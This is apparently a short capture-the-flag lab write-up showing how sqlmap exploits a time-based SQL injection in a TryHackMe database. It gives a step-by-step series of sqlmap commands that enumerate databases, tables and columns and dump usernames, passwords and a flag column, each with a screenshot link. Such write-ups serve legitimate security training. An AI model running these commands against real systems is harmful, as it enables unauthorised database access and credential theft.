 # sqlmap for time based sqli attack

![Screenshot from 2024-05-24 13-03-27](https://github.com/Berlinshaju/penetrationtester/assets/66897078/61cc15ab-bc05-45d4-ae25-8bc8b2825451)
```
sqlmap -r request.txt --dbs --batch
```
![Screenshot from 2024-05-24 13-05-43](https://github.com/Berlinshaju/penetrationtester/assets/66897078/22c2b8d6-cfcf-4ddb-8ceb-a1eb08104dc5)

```
sqlmap -r request.txt --batch -D THM_f0und_m3 --tables
```
![Screenshot from 2024-05-24 13-08-18](https://github.com/Berlinshaju/penetrationtester/assets/66897078/7935e003-4834-488e-b332-6f79c84f4c14)

```
sqlmap -r request.txt --batch -D THM_f0und_m3 -T user --columns

```
![Screenshot from 2024-05-24 13-09-51](https://github.com/Berlinshaju/penetrationtester/assets/66897078/c6b00140-9f61-4d04-9a75-af219d3da633)
```
sqlmap -r request.txt --batch -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"

```
![Screenshot from 2024-05-24 16-10-30](https://github.com/Berlinshaju/penetrationtester/assets/66897078/fd1f7c06-a490-47ef-844e-1c2a4336f420)

```
sqlmap -r request.txt --batch -D THM_f0und_m3 -T nothing_inside --columns

```
![Screenshot from 2024-05-24 13-11-42](https://github.com/Berlinshaju/penetrationtester/assets/66897078/91b87a35-3799-424d-b925-b6ddd8602929)

```
sqlmap -r request.txt --batch -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"

```
![Screenshot from 2024-05-24 13-12-57](https://github.com/Berlinshaju/penetrationtester/assets/66897078/66e3dffb-befc-45b5-aee4-cd4748484052)


